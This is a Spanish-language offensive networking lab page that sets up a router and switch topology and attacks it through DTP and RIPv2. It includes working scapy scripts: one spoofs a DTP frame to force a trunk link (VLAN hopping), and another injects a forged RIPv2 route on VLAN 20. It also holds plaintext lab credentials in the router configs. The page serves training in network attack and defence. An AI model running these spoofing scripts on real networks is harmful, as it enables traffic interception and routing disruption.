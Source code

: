 ```yaml
---
theme: "just-the-docs"
title: "LAB Ofensivo: Escenario 01"
layout: default
nav_order: 5
parent: "Labs Ofensivos" 
---
```

# Escenario 01: DTP, RIPv2
## Topologia a configurar
![Escenario 01](Escenario01.png)
## Configuracion equipos de comunicaciones
### RTA
```
hostname RTA
!
username dpacheco password lesand2024
enable secret 2024
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.1 255.255.255.0
 no shut
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.4.0
 !
 interface lo1
  ip add 192.168.4.10 255.255.255.0
!
ip dhcp excluded-address 192.168.1.1 192.168.1.5
ip dhcp excluded-address 192.168.0.1 192.168.0.5
!
ip dhcp pool V10
 network 192.168.0.0 255.255.255.0
 default-router 192.168.0.1
!
ip dhcp pool V20
 network 192.168.1.0 255.255.255.0
 default-router 192.168.1.1
```
### RTB
```
hostname RTB
!
username dpacheco password lesand2024
enable secret 2024
!
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.2 255.255.255.0
 no shut
!
int g0/0
 no shut
int g0/0.10
 encapsulation dot1q 10
 ip add 192.168.0.1 255.255.255.0
int g0/0.20
 encapsulation dot1q 20
 ip add 192.168.1.1 255.255.255.0
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.0.0
 network 192.168.1.0
 !
int g0/0.10
 ip helper-address 192.168.4.10
int g0/0.20
 ip helper-address 192.168.4.10
```
### SW1
```
hostname SW1
vlan 10
vlan 20
int Gi0/0
 switchport trunk encapsulation dot1q
 switchport mode trunk
int Gi1/1
 switchport mode access
 switchport access vlan 10
int Gi1/2
 switchport mode access
 switchport access vlan 20
```

## Reconocimiento usando Llaitun
Avtivamos el ambiente virtual y ejecutamos Llaitun como root
```
cd Desktop/tools                                                         ─╯
source ENV-LLAITUN/bin/activate   
sudo $(which python) Llaitun.py --live 
```
## Creacion de directorio para scripts de scapy
```
mkdir /home/lesand/Desktop/tools/scapy
```

## Instalacion y ejecucion de scapy
```
sudo apt-get install python3-scapy                                       ─╯
sudo scappy
```
### Ejemplo Script para DTP (scapy Modo Libreria)
```
from scapy.all import *
load_contrib("dtp")
ASD = sniff(filter="ether[20:2] == 0x2004",count=1)    

ASD[0].src="00:00:00:13:54:2d"
ASD[0][DTP][DTPStatus].status='\x03'
#ASD[0][DTP][DTPType].dtptype='E'
sendp(ASD[0])
```
### Ejemplo Script para RIPv2 (scapy Modo Interactivo)
```
sendp(Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type=0x8100)/Dot1Q(prio=0, id=0, vlan=20, type=0x0800)/IP(tos=192,ttl=2,proto=17,src="192.168.1.10",dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2,version=2)/RIPEntry(AF=2, RouteTag=1354, addr="8.8.8.8", mask="255.255.255.255", nextHop="0.0.0.0", metric=1))
```
